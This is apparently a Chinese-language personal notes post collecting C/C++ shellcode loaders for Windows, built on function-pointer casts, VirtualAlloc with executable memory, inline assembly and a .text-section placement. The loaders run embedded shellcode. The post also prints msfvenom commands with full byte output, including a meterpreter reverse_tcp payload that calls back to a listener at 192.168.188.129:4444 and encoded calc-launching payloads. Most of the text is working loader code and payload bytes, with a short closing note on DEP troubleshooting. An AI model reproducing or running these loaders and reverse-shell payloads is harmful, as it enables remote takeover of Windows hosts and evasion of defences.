

记录一些语言的shellcode 加载方式，持续更新...

[toc]

# C/C++

首先是c的loader，分两种，指针直接执行和动态分配。

## 指针执行

```c
#include <stdio.h>
#include <windows.h>
//设置入口地址，不弹出黑窗口
# pragma comment(linker,"/subsystem:\"Windows\" /entry:\"mainCRTStartup\"")

unsigned char shellcode[] =
"shellcode";

void main()
{
    //都可
	//((void(*)()) &shellcode)();
    //(*(void(*)()) &shellcode)();
    
    //也可以这样
 	//void (*func)();
    //func = (void (*)())(void *)shellcode;
    //func();
}
```

## 动态分配

```c
#include <stdio.h>
#include <windows.h>
unsigned char shellcode[] =
"shellcode";

int main()
{
	PVOID Memory;
    Memory = VirtualAlloc(NULL,sizeof(shellcode),MEM_COMMIT|MEM_RESERVE,PAGE_EXECUTE_READWRITE);
    //动态分配虚地址空间
    memcpy(Memory,buf,sizeof(shellcode));
    //复制内存内容
    ((void(*)())Memory)();
}
```

## 内联汇编

```c
#include <windows.h>  
#include <stdio.h>  

#pragma comment(linker, "/section:.data,RWE")  

unsigned char shellcode[] = "shellcode";
void main()
{
    __asm
    {
        mov eax, offset shellcode
        jmp eax
    }
}
```

## 写到text段

```c
#pragma section(".text")

__declspec(allocate(".text")) char shellcode[] =
    "\xba\x9f\x20\x22\xd2\xda\xd4\xd9\x74\x24\xf4\x5f\x33\xc9\xb1"
    "\x30\x83\xc7\x04\x31\x57\x0f\x03\x57\x90\xc2\xd7\x2e\x46\x80"
    "\x18\xcf\x96\xe5\x91\x2a\xa7\x25\xc5\x3f\x97\x95\x8d\x12\x1b"
    "\x5d\xc3\x86\xa8\x13\xcc\xa9\x19\x99\x2a\x87\x9a\xb2\x0f\x86"
    "\x18\xc9\x43\x68\x21\x02\x96\x69\x66\x7f\x5b\x3b\x3f\x0b\xce"
    "\xac\x34\x41\xd3\x47\x06\x47\x53\xbb\xde\x66\x72\x6a\x55\x31"
    "\x54\x8c\xba\x49\xdd\x96\xdf\x74\x97\x2d\x2b\x02\x26\xe4\x62"
    "\xeb\x85\xc9\x4b\x1e\xd7\x0e\x6b\xc1\xa2\x66\x88\x7c\xb5\xbc"
    "\xf3\x5a\x30\x27\x53\x28\xe2\x83\x62\xfd\x75\x47\x68\x4a\xf1"
    "\x0f\x6c\x4d\xd6\x3b\x88\xc6\xd9\xeb\x19\x9c\xfd\x2f\x42\x46"
    "\x9f\x76\x2e\x29\xa0\x69\x91\x96\x04\xe1\x3f\xc2\x34\xa8\x55"
    "\x15\xca\xd6\x1b\x15\xd4\xd8\x0b\x7e\xe5\x53\xc4\xf9\xfa\xb1"
    "\xa1\xf6\xb0\x98\x83\x9e\x1c\x49\x96\xc2\x9e\xa7\xd4\xfa\x1c"
    "\x42\xa4\xf8\x3d\x27\xa1\x45\xfa\xdb\xdb\xd6\x6f\xdc\x48\xd6"
    "\xa5\xbf\x0f\x44\x25\x40";

int main()
{
    (*(void (*)())(&shellcode))();
}
```


# shellcode

到kali机的，(自用

```c
➜  ~ msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.188.129 LPORT=4444 -a x86 --platform Windows -f c  
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of c file: 1512 bytes
unsigned char buf[] = 
"\xfc\xe8\x8f\x00\x00\x00\x60\x31\xd2\x64\x8b\x52\x30\x8b\x52"
"\x0c\x8b\x52\x14\x89\xe5\x31\xff\x0f\xb7\x4a\x26\x8b\x72\x28"
"\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\x49"
"\x75\xef\x52\x8b\x52\x10\x57\x8b\x42\x3c\x01\xd0\x8b\x40\x78"
"\x85\xc0\x74\x4c\x01\xd0\x50\x8b\x58\x20\x01\xd3\x8b\x48\x18"
"\x85\xc9\x74\x3c\x49\x31\xff\x8b\x34\x8b\x01\xd6\x31\xc0\xac"
"\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf4\x03\x7d\xf8\x3b\x7d\x24"
"\x75\xe0\x58\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c"
"\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59"
"\x5a\x51\xff\xe0\x58\x5f\x5a\x8b\x12\xe9\x80\xff\xff\xff\x5d"
"\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c\x77\x26"
"\x07\x89\xe8\xff\xd0\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68"
"\x29\x80\x6b\x00\xff\xd5\x6a\x0a\x68\xc0\xa8\xbc\x81\x68\x02"
"\x00\x11\x5c\x89\xe6\x50\x50\x50\x50\x40\x50\x40\x50\x68\xea"
"\x0f\xdf\xe0\xff\xd5\x97\x6a\x10\x56\x57\x68\x99\xa5\x74\x61"
"\xff\xd5\x85\xc0\x74\x0a\xff\x4e\x08\x75\xec\xe8\x67\x00\x00"
"\x00\x6a\x00\x6a\x04\x56\x57\x68\x02\xd9\xc8\x5f\xff\xd5\x83"
"\xf8\x00\x7e\x36\x8b\x36\x6a\x40\x68\x00\x10\x00\x00\x56\x6a"
"\x00\x68\x58\xa4\x53\xe5\xff\xd5\x93\x53\x6a\x00\x56\x53\x57"
"\x68\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58\x68\x00"
"\x40\x00\x00\x6a\x00\x50\x68\x0b\x2f\x0f\x30\xff\xd5\x57\x68"
"\x75\x6e\x4d\x61\xff\xd5\x5e\x5e\xff\x0c\x24\x0f\x85\x70\xff"
"\xff\xff\xe9\x9b\xff\xff\xff\x01\xc3\x29\xc6\x75\xc1\xc3\xbb"
"\xf0\xb5\xa2\x56\x6a\x00\x53\xff\xd5";

➜  ~ msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.188.129 LPORT=4444 -a x86 --platform Windows -f c --bad "\x00"
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 381 (iteration=0)
x86/shikata_ga_nai chosen with final size 381
Payload size: 381 bytes
Final size of c file: 1626 bytes
unsigned char buf[] = 
"\xbb\xfb\xb4\xcc\x3f\xda\xd9\xd9\x74\x24\xf4\x5a\x29\xc9\xb1"
"\x59\x31\x5a\x14\x83\xc2\x04\x03\x5a\x10\x19\x41\x30\xd7\x52"
"\xaa\xc9\x28\x0c\x9a\x1b\x4c\x47\x8e\xab\x04\xb2\xa4\x9e\x1a"
"\xb7\xe9\x0a\xa8\xb5\x25\x3c\x19\x73\x10\x73\x9a\xb2\x9c\xdf"
"\x58\xd5\x60\x22\x8d\x35\x58\xed\xc0\x34\x9d\xbb\xaf\xd9\x73"
"\x6b\xdb\x77\x64\x18\x99\x4b\x85\xce\x95\xf3\xfd\x6b\x69\x87"
"\xb1\x72\xba\xec\x02\x6d\xb1\xaa\xb2\xdd\xc4\x99\x36\x14\xb2"
"\x21\x08\x58\x72\xd2\x5e\x2d\x84\x32\xaf\xf1\x2b\x7b\x1f\xfc"
"\x32\xbc\x98\x1f\x41\xb6\xda\xa2\x52\x0d\xa0\x78\xd6\x91\x02"
"\x0a\x40\x75\xb2\xdf\x17\xfe\xb8\x94\x5c\x58\xdd\x2b\xb0\xd3"
"\xd9\xa0\x37\x33\x68\xf2\x13\x97\x30\xa0\x3a\x8e\x9c\x07\x42"
"\xd0\x79\xf7\xe6\x9b\x68\xee\x97\x64\x73\x0f\xca\xf2\xbf\xc2"
"\xf5\x02\xa8\x55\x85\x30\x77\xce\x01\x78\xf0\xc8\xd6\x09\x16"
"\xeb\x09\xb1\x77\x15\xaa\xc1\x5e\xd2\xfe\x91\xc8\xf3\x7e\x7a"
"\x09\xfb\xaa\x16\x03\x6b\x95\x4e\xaf\xea\x7d\x8c\xd0\xfd\x21"
"\x19\x36\xad\x89\x49\xe7\x0e\x7a\x29\x57\xe7\x90\xa6\x88\x17"
"\x9b\x6d\xa1\xb2\x74\xdb\x99\x2a\xec\x46\x51\xca\xf1\x5d\x1f"
"\xcc\x7a\x57\xdf\x83\x8a\x12\xf3\xf4\xec\xdc\x0b\x05\x99\xdc"
"\x61\x01\x0b\x8b\x1d\x0b\x6a\xfb\x81\xf4\x59\x78\xc5\x0b\x1c"
"\x48\xbd\x3a\x8a\xf4\xa9\x42\x5a\xf4\x29\x15\x30\xf4\x41\xc1"
"\x60\xa7\x74\x0e\xbd\xd4\x24\x9b\x3e\x8c\x99\x0c\x57\x32\xc7"
"\x7b\xf8\xcd\x22\xf8\xff\x31\xb0\xd7\xa7\x59\x4a\x68\x58\x99"
"\x20\x68\x08\xf1\xbf\x47\xa7\x31\x3f\x42\xe0\x59\xca\x03\x42"
"\xf8\xcb\x09\x02\xa4\xcc\xbe\x9f\x57\xb6\xcf\x20\x98\x47\xc6"
"\x44\x99\x47\xe6\x7a\xa6\x91\xdf\x08\xe9\x21\x64\x02\x5c\x07"
"\xcd\x89\x9e\x1b\x0d\x98";


```

## 弹计算器

### 32位

```c
➜  ~ msfvenom --payload windows/exec cmd="calc" --format c --arch x86 --platform windows --bad "\x00" 
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 216 (iteration=0)
x86/shikata_ga_nai chosen with final size 216
Payload size: 216 bytes
Final size of c file: 933 bytes
unsigned char buf[] = 
"\xba\x9f\x20\x22\xd2\xda\xd4\xd9\x74\x24\xf4\x5f\x33\xc9\xb1"
"\x30\x83\xc7\x04\x31\x57\x0f\x03\x57\x90\xc2\xd7\x2e\x46\x80"
"\x18\xcf\x96\xe5\x91\x2a\xa7\x25\xc5\x3f\x97\x95\x8d\x12\x1b"
"\x5d\xc3\x86\xa8\x13\xcc\xa9\x19\x99\x2a\x87\x9a\xb2\x0f\x86"
"\x18\xc9\x43\x68\x21\x02\x96\x69\x66\x7f\x5b\x3b\x3f\x0b\xce"
"\xac\x34\x41\xd3\x47\x06\x47\x53\xbb\xde\x66\x72\x6a\x55\x31"
"\x54\x8c\xba\x49\xdd\x96\xdf\x74\x97\x2d\x2b\x02\x26\xe4\x62"
"\xeb\x85\xc9\x4b\x1e\xd7\x0e\x6b\xc1\xa2\x66\x88\x7c\xb5\xbc"
"\xf3\x5a\x30\x27\x53\x28\xe2\x83\x62\xfd\x75\x47\x68\x4a\xf1"
"\x0f\x6c\x4d\xd6\x3b\x88\xc6\xd9\xeb\x19\x9c\xfd\x2f\x42\x46"
"\x9f\x76\x2e\x29\xa0\x69\x91\x96\x04\xe1\x3f\xc2\x34\xa8\x55"
"\x15\xca\xd6\x1b\x15\xd4\xd8\x0b\x7e\xe5\x53\xc4\xf9\xfa\xb1"
"\xa1\xf6\xb0\x98\x83\x9e\x1c\x49\x96\xc2\x9e\xa7\xd4\xfa\x1c"
"\x42\xa4\xf8\x3d\x27\xa1\x45\xfa\xdb\xdb\xd6\x6f\xdc\x48\xd6"
"\xa5\xbf\x0f\x44\x25\x40";

➜  ~ msfvenom --payload windows/exec cmd="calc" --format c --arch x86 --platform windows              
No encoder specified, outputting raw payload
Payload size: 189 bytes
Final size of c file: 819 bytes
unsigned char buf[] = 
"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
"\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
"\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
"\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
"\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
"\x8d\x5d\x6a\x01\x8d\x85\xb2\x00\x00\x00\x50\x68\x31\x8b\x6f"
"\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x68\xa6\x95\xbd\x9d\xff\xd5"
"\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a"
"\x00\x53\xff\xd5\x63\x61\x6c\x63\x00";


➜  ~ msfvenom -p windows/exec cmd=calc.exe -f c --bad "\x00"
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 220 (iteration=0)
x86/shikata_ga_nai chosen with final size 220
Payload size: 220 bytes
Final size of c file: 949 bytes
unsigned char buf[] = 
"\xbe\x7a\x1b\x33\xc4\xd9\xc9\xd9\x74\x24\xf4\x5f\x31\xc9\xb1"
"\x31\x83\xef\xfc\x31\x77\x0f\x03\x77\x75\xf9\xc6\x38\x61\x7f"
"\x28\xc1\x71\xe0\xa0\x24\x40\x20\xd6\x2d\xf2\x90\x9c\x60\xfe"
"\x5b\xf0\x90\x75\x29\xdd\x97\x3e\x84\x3b\x99\xbf\xb5\x78\xb8"
"\x43\xc4\xac\x1a\x7a\x07\xa1\x5b\xbb\x7a\x48\x09\x14\xf0\xff"
"\xbe\x11\x4c\x3c\x34\x69\x40\x44\xa9\x39\x63\x65\x7c\x32\x3a"
"\xa5\x7e\x97\x36\xec\x98\xf4\x73\xa6\x13\xce\x08\x39\xf2\x1f"
"\xf0\x96\x3b\x90\x03\xe6\x7c\x16\xfc\x9d\x74\x65\x81\xa5\x42"
"\x14\x5d\x23\x51\xbe\x16\x93\xbd\x3f\xfa\x42\x35\x33\xb7\x01"
"\x11\x57\x46\xc5\x29\x63\xc3\xe8\xfd\xe2\x97\xce\xd9\xaf\x4c"
"\x6e\x7b\x15\x22\x8f\x9b\xf6\x9b\x35\xd7\x1a\xcf\x47\xba\x70"
"\x0e\xd5\xc0\x36\x10\xe5\xca\x66\x79\xd4\x41\xe9\xfe\xe9\x83"
"\x4e\xf0\xa3\x8e\xe6\x99\x6d\x5b\xbb\xc7\x8d\xb1\xff\xf1\x0d"
"\x30\x7f\x06\x0d\x31\x7a\x42\x89\xa9\xf6\xdb\x7c\xce\xa5\xdc"
"\x54\xad\x28\x4f\x34\x1c\xcf\xf7\xdf\x60";

```


### 64位

```c
➜  ~ msfvenom -p windows/x64/exec cmd=calc.exe -f c --bad "\x00"               
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
Found 3 compatible encoders
Attempting to encode payload with 1 iterations of generic/none
generic/none failed with Encoding failed due to a bad character (index=7, char=0x00)
Attempting to encode payload with 1 iterations of x64/xor
x64/xor succeeded with size 319 (iteration=0)
x64/xor chosen with final size 319
Payload size: 319 bytes
Final size of c file: 1366 bytes
unsigned char buf[] = 
"\x48\x31\xc9\x48\x81\xe9\xdd\xff\xff\xff\x48\x8d\x05\xef\xff"
"\xff\xff\x48\xbb\xf5\x1f\xb6\x9f\x1f\x80\x55\xcb\x48\x31\x58"
"\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\x09\x57\x35\x7b\xef\x68"
"\x95\xcb\xf5\x1f\xf7\xce\x5e\xd0\x07\x9a\xa3\x57\x87\x4d\x7a"
"\xc8\xde\x99\x95\x57\x3d\xcd\x07\xc8\xde\x99\xd5\x57\x3d\xed"
"\x4f\xc8\x5a\x7c\xbf\x55\xfb\xae\xd6\xc8\x64\x0b\x59\x23\xd7"
"\xe3\x1d\xac\x75\x8a\x34\xd6\xbb\xde\x1e\x41\xb7\x26\xa7\x5e"
"\xe7\xd7\x94\xd2\x75\x40\xb7\x23\xfe\x9e\xcf\x0b\xd5\x43\xf5"
"\x1f\xb6\xd7\x9a\x40\x21\xac\xbd\x1e\x66\xcf\x94\xc8\x4d\x8f"
"\x7e\x5f\x96\xd6\x1e\x50\xb6\x9d\xbd\xe0\x7f\xde\x94\xb4\xdd"
"\x83\xf4\xc9\xfb\xae\xd6\xc8\x64\x0b\x59\x5e\x77\x56\x12\xc1"
"\x54\x0a\xcd\xff\xc3\x6e\x53\x83\x19\xef\xfd\x5a\x8f\x4e\x6a"
"\x58\x0d\x8f\x7e\x5f\x92\xd6\x1e\x50\x33\x8a\x7e\x13\xfe\xdb"
"\x94\xc0\x49\x82\xf4\xcf\xf7\x14\x1b\x08\x1d\xca\x25\x5e\xee"
"\xde\x47\xde\x0c\x91\xb4\x47\xf7\xc6\x5e\xda\x1d\x48\x19\x3f"
"\xf7\xcd\xe0\x60\x0d\x8a\xac\x45\xfe\x14\x0d\x69\x02\x34\x0a"
"\xe0\xeb\xd7\xa5\x81\x55\xcb\xf5\x1f\xb6\x9f\x1f\xc8\xd8\x46"
"\xf4\x1e\xb6\x9f\x5e\x3a\x64\x40\x9a\x98\x49\x4a\xa4\x70\xe0"
"\x69\xa3\x5e\x0c\x39\x8a\x3d\xc8\x34\x20\x57\x35\x5b\x37\xbc"
"\x53\xb7\xff\x9f\x4d\x7f\x6a\x85\xee\x8c\xe6\x6d\xd9\xf5\x1f"
"\xd9\x14\x42\x2f\xe0\x63\xfc\x7e\xec\x36\xe5\x90\x67\xd3\x9f"
"\x1f\x80\x55\xcb";
```

# vscode与Visual Studio

经过测试，我这里的vscode无论是32位的指针执行还是动态分配执行都是可以正常弹calc的；但是64位的指针执行还是动态分配执行都不可以执行，应该是vscode的环境问题。

而在Visual Studio中，32位下，动态分配的方式可以正常执行，但是如果是想要指针执行，则需要关闭DEP：



64位下，动态分配可以正常运行，但是指针执行无论如何都没有成功，找了半天解决办法仍未成功，64位程序无法关闭DEP。

之后找到解决办法再写吧，占个坑位，有大佬如果知道的QQ联系QAQ.


>   https://422926799.github.io/posts/44310b89.html
>
>   https://www.redteam101.tech/offensive-security/code-injection-process-injection/local-shellcode-execution-without-windows-apis
>
>   https://wooyun.js.org/drops/Exploit%E5%BC%80%E5%8F%91%E7%B3%BB%E5%88%97%E6%95%99%E7%A8%8B-Windows%E5%9F%BA%E7%A1%80&shellcode.html
>
>   https://luckyfuture.top/ShellcodeLoader.html
